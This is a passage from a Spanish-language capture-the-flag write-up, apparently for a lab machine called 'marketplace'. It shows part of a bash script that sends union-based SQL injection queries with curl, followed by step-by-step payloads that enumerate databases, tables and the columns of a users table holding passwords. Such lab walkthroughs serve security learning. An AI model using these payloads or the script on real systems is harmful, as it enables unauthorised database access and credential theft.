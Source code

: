 ```bash
      curl -s -X GET -G "$url" -H "$cookie" --data-urlencode "user=0 $query" |html2text  |awk '/****** User 1 ******/,/ID: 1/' |sed 's/\*\*\*\*\*\* User 1 \*\*\*\*\*\*//' |sed 's/ID: 1//' |sed 's/User //'
  done
}
counter=0

while getopts "hi" arg;do

  case $arg in

    h);;

    i) counter+=1;;

  esac

done

if [ $counter -eq 1 ];then
  
  sqlInteractive

else
  helpPanel

fi
```
Empezemos a dumpear los datos vamos a usar rlwrap para tener historial y poder movernos mas comodo, lo ejecutamos y seleccionamos las 4 columnas que hay y vemos que nos devuelve el numero 2.
```bash
❯ rlwrap ./sqlI.sh -i
union select 1,2,3,4-- -

2
```
Vale ese numero 2 que nos devuelve es el numero 2 de nuestra consulta, veamos cual es el nombre de la base de datos actualmente en uso.
```bash
union select 1,database(),3,4-- -

marketplace
```
Veamos los nombres de todas las base de datos que se encuentran en el servidor voy a usar group_concat para que me reporte todos los datos juntos.
```bash
union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -

information_schema,marketplace
```
Enumeremos las tablas de la base de datos marketplace
```bash
union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -

items,messages,users
```
Enumeremos las columnas de la tabla users.
```bash
union select 1,group_concat(column_name),3,4 from information_schema.columns where table_schema='marketplace' and table_name='users'-- -

id,username,password,isAdministrator
```
veamos el contenido de estas columnas.